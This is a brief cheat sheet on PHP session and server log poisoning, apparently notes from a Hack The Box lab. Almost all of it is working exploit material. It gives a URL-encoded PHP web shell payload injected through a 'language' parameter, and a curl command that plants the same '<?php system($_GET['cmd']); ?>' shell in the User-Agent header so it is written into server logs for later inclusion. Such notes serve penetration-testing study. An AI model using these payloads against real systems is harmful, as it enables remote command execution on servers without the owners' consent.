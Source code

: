 ```yaml
---
title: Log Poisoning
---
```


# PHP Session Poisoning

## 

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

# Server Log Poisoning


## Burp Suite - Poison User-Agent

<img src="/assets/images/rfi_cmd_repeater.png"/>

## Log Poisoning with cURL

```
Jerad Rodgers@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```